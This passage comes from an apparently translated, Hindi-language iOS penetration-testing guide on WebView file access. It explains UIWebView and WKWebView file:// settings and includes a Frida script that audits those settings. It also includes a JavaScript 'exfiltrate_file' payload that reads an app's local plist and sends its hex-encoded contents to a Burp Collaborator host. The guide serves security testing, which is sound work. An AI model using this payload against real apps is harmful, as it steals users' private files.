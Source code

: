 * **UIWebView:**
* `file://` स्कीम हमेशा सक्षम होती है।
* `file://` URL से फ़ाइल एक्सेस हमेशा सक्षम होता है।
* `file://` URL से यूनिवर्सल एक्सेस हमेशा सक्षम होता है।
* यदि आप `baseURL` को `nil` पर सेट किए गए `UIWebView` से प्रभावी मूल को प्राप्त करते हैं, तो आप देखेंगे कि यह **"null" पर सेट नहीं होता है**, बजाय इसके आप कुछ इस तरह का प्राप्त करेंगे: `applewebdata://5361016c-f4a0-4305-816b-65411fc1d78`0। यह मूल "applewebdata://" "file://" मूल के समान होता है क्योंकि इसमें **सेम-ऑरिजिन नीति को लागू नहीं किया जाता है** और यहां स्थानीय फ़ाइलों और किसी भी वेब संसाधनों का एक्सेस सुनिश्चित करता है।

{% tabs %}
{% tab title="exfiltrate_file" %}
```javascript
String.prototype.hexEncode = function(){
var hex, i;
var result = "";
for (i=0; i<this.length; i++) {
hex = this.charCodeAt(i).toString(16);
result += ("000"+hex).slice(-4);
}
return result
}

var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
var xhr2 = new XMLHttpRequest();
xhr2.open('GET', 'http://187e2gd0zxunzmb5vlowsz4j1a70vp.burpcollaborator.net/'+xhr.responseText.hexEncode(), true);
xhr2.send(null);
}
}
xhr.open('GET', 'file:///var/mobile/Containers/Data/Application/ED4E0AD8-F7F7-4078-93CC-C350465048A5/Library/Preferences/com.authenticationfailure.WheresMyBrowser.plist', true);
xhr.send(null);
```
{% endtab %}
{% endtabs %}

* **WKWebView**:
* **`allowFileAccessFromFileURLs`** (`WKPreferences`, `false` by default): यह `file://` scheme URL के संदर्भ में चल रहे JavaScript को अन्य `file://` scheme URLs से सामग्री तक पहुंचने की अनुमति देता है।
* **`allowUniversalAccessFromFileURLs`** (`WKWebViewConfiguration`, `false` by default): यह `file://` scheme URL के संदर्भ में चल रहे JavaScript को किसी भी मूल से सामग्री तक पहुंचने की अनुमति देता है।

आप ऐप्लिकेशन के स्रोत कोड या कंपाइल किए गए बाइनरी में इन फ़ंक्शन की खोज कर सकते हैं।\
इसके अलावा, आप इस जानकारी को खोजने के लिए निम्नलिखित frida स्क्रिप्ट का उपयोग कर सकते हैं:
```bash
ObjC.choose(ObjC.classes['WKWebView'], {
onMatch: function (wk) {
console.log('onMatch: ', wk);
console.log('URL: ', wk.URL().toString());
console.log('javaScriptEnabled: ', wk.configuration().preferences().javaScriptEnabled());
console.log('allowFileAccessFromFileURLs: ',
wk.configuration().preferences().valueForKey_('allowFileAccessFromFileURLs').toString());
console.log('hasOnlySecureContent: ', wk.hasOnlySecureContent().toString());
console.log('allowUniversalAccessFromFileURLs: ',
wk.configuration().valueForKey_('allowUniversalAccessFromFileURLs').toString());
},
onComplete: function () {
console.log('done for WKWebView!');
}
});
```